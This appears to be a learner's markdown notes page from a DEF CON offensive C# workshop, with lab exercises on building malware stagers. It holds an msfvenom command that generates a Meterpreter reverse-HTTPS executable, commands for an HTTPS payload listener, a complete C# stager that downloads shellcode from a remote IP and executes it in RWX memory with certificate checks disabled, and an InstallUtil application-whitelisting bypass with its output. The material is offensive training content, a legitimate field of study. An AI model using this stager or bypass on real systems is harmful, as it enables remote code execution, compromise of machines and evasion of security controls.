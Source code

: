 https://github.com/mvelazc0/defcon27_csharp_workshop

# Defcon Csharp workshop

set up one windows vm and one kali linux vm.
One kali linux:
`metasploit`
`pip install twistd`
`EmpireProject`

# lab 1

## Exercise 1

hellow world

## Exercise 2

inside cff exploreer in import directory we can see that mscore.lib is being imported

monitor with procmon

# lab 2

Downloada meterpreter stager

in network tab of process hacker we can look at network artifacts

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
```

creating an https listener

```
openssl genrsa > privkey.pem;
openssl req -new -x509 -key privkey.pem -out cert.pem -days 365;
twistd -n web -c cert.pem -k privkey.pem --https=8080;
```

using web.client we can download and execute as well

## Exercise 3

creating a custom stager

```C#
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program
{

    //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;


    public static void Main()
    {
        string url = "https://192.168.0.35:8080/nD7qcbYj8eZVilSICKHiKQ5d9UJt8wcsY3KVBWrtBEvK9mbfbWNqZ9sf1";
        Stager(url);
    }

    public static void Stager(string url)
    {

        WebClient wc = new WebClient();
        wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");
        ServicePointManager.Expect100Continue = true;
        ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
        ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };

        byte[] shellcode = wc.DownloadData(url);

        UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
        IntPtr threatHandle = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr parameter = IntPtr.Zero;
        threatHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);
        WaitForSingleObject(threatHandle, 0xFFFFFFFF);

    }



}
```

# Lab 3

raw shellcod einjection

## exercise 2 

bypassing application whitelisting

```C#
using System;
using System.Net;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Runtime.InteropServices;


public class Program
{
    public static void Main()
    {
        Console.WriteLine("I am not malicious :)");
        Console.ReadKey();
    }

}

[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        LegitInstaller.Run();
    }

}

public class LegitInstaller
{

    public static void Run()
    {
        Process.Start("notepad.exe");
        Console.ReadKey();

    }

}

```

```
C:\Users\WIN10RED\source\repos\cryptopals_net\cryptopals_net\bin\x64\Release>C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=false /U ./cryptopals_net.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.4084.0
Copyright (C) Microsoft Corporation.  All rights reserved.

Exception occurred while initializing the installation:
System.BadImageFormatException: Could not load file or assembly 'file:///C:\Users\WIN10RED\source\repos\cryptopals_net\cryptopals_net\bin\x64\Release\cryptopals_net.exe' or one of its dependencies. An attempt was made to load a program with an incorrect format..
```

# lab 4 

shellcode obfuscation

## xor the payload

## AES encryption of payload

# lab 5 powershell without powershell.exe

## Executing PWS cmdlets

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:"C:\Program Files
(x86)\Reference
Assemblies\Microsoft\WindowsPowerShell\3.0\System.Management.Automation.dll" 1.cs
```

dll not found error : https://stackoverflow.com/questions/27374767/missing-automation-from-namespace-system-management-missing-assembly-referenc#:~:text=If%20a%20DLL%20is%20not%20found%2C%20there%20is,package%20names%20have%20changed.%20Uninstall%20the%20package%20System.Management.Automation










